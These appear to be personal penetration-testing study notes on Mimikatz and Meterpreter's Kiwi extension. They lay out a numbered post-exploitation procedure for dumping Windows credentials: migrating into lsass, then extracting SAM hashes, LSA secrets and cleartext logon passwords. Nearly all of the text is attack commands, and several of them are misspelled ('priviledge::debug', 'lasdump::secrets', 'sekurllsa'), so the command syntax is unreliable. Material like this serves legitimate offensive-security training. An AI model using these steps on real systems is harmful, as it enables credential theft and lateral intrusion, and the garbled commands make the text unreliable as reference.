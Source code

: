 
MimiKatz
=
Requires elevated privilege's 

located in /usr/share/windows-resources if you cant get meterpreter

Standard for post exploitation password/hash extraction and kerberos tickets from memory

can extract the hashes from lsass.exe process from memory

we can use mimkatz binary in kali or with meterpreter we can use Kiwi

Kiwi
=
MimiKatz meterpreter tool

Methodology
=
requires elevated privileges
Kiwi:
1. get meterpreter shell
2. `sysinfo` - get system information
3. `pgrep lsass`
4. migrate to pid of lsass
5. `load kiwi`
6. `?` - for help
7. `creds_all` - dumps hashes
8. `lsa_dump_sam` - dumps sam along with syskey and samkey
9. `lsa_dump_secrets` - may dump clear text credentials

Mimikatz:
1. upload mimikatz to target with meterpreter
2. `.\mimikatz.exe`
3. `priviledge::debug` - look for 20 ok for correct privs
4. `lsadump::sam`
5. `lasdump::secrets`
6. `sekurllsa::logonpasswords` - look for clear text logon passwords